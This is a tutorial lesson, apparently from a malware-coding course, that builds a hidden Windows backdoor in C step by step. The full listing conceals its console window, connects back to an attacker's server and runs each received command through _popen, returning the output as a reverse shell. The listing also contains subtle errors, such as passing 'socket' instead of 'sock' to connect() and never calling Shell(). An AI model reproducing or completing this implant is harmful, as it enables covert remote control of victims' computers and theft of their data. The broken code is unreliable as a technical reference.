 ```yaml
---
title: Executing commands client-side
course: code_malware
section: "Executing shell commands"
layout: lesson
---
```


In this lesson we will start working in our "If/Else" statement, inside of our
Shell function.

The first thing that we need to do is to compare the "_buffer_" variable with
different commands, for example, let's suppose the server wants to close the
connection with the target, we can do that by specifying something that is short
and to the point, so the user of this program can understand it. How are we
going to do that? Let's suppose that when sending the "q" command from the
server to the client, the connection will be closed, it is as simple as
comparing the value of buffer with other different strings (in this example, q),
if the buffer value is equals to "q" the socket will be closed and therefore the
  connection will be stopped. We can perform that comparison by using a
C-language function called "strncmp" (string compare), the string compare
function takes three arguments, the first one, is the string we are comparing
(for this example, "q"), the second variable would be the variable we are
comparing the string with (in our backdoor case is "_buffer_") and the third
argument is the amount of characters we are comparing, following with the "q"
command example, we are only comparing one character, if the value of "_buffer_"
is equals to the first passed argument, the "_strncmp_" function will return
"0", now what's let to do, is to put it into an if statement as shown below:

```c
if (strncmp("q", buffer, 1) == 0) {
}
```

Continuing with our quit example, we will add the following code into the "_if_"
statement:

```c
closesocket(sock);
WSACleanup();
exit(0);
```

What that portion of code does, is basically close the socket and exit the
program. We will manage all of our customised commands by using the previously
shown comparisons, by using ifs and elses, but... What if the attacker (server)
sends a command which hasn't been implemented? We will need to create a native
command receiver which will execute what the server sent if it doesn't match any
of the comparisons in the ifs, go to the end of your if statement and right
after "}" add the following code:

```c
else {
  FILE *fp;
  fp = _popen(buffer, "r");
  while(fgets(container, 1024, fp) != NULL) {
      strcat(total_response, container);
  }
  send(sock, total_response, sizeof(total_response), 0);
  fclose(fp);
}
```

What does that code does, is creating a file descriptor "_*fp_", we execute a
program (which is specified by the buffer variable) "_fp = _popen(buffer,
"r")_". A program opened by the buffer variable? Yes, remember that the commands
the server sends will be stored in the "_buffer_" variable, therefore, if a
command that is not defined by us is entered, it will search in the path for
that command, and if exists is executed, for example, if the server sends
"firefox" it will look in the path for "firefox.exe" and if found, it's
executed. The second argument taken by "_popen_" ("_r_") means that we will read
the command sent by the server and then execute it.

In the line "``fp = _popen(buffer, "r")``" we executed the command inside the
buffer, and we also stored it into "`fp`", once we stored the response into the
file descriptor, we need to read from it and store the information inside the
"_container_", and container is the size of 1024 bytes, that's why we are using
while and then "_fgets_", we are getting 1024 bytes from the file descriptor
  inside the container variable, but let's image that the response is larger
than 1024 bytes of memory, we can't store it into "`container`", that's why we
simply paste the first 1024 bytes of memory into the "_container_" and then we
are adding "_container_" into "_total_response_", simply put, we are copying
1024 bytes of memory into "_total_response_", 1024 bytes again, and so on.

And finally, we are sending the "_total_response_" variable to the server, and
closing the "_fp_" file descriptor.

This is how our entire code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

#define bzero(p, size) (void) memset((p), 0, (size))

int sock;

void Shell() {
  char buffer[1024];
  char container[1024];
  char total_response[1024];

  while(1) {
    jump:
    bzero(buffer, sizeof(buffer));
    bzero(container, sizeof(container));
    bzero(total_response, sizeof(total_response));

    recv(sock, buffer, 1024, 0);

    if(strncmp("q", buffer, 1) == 0) {
      closesocket(sock);
      WSACleanup();
      exit(0);
    } else {
      FILE *fp;
      fp = _popen(buffer, "r");
      while(fgets(container, 1024, fp) != NULL) {
        strcat(total_response, container);
      }
      send(sock, total_response, sizeof(total_response), 0);
      fclose(fp);
    }
  }
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
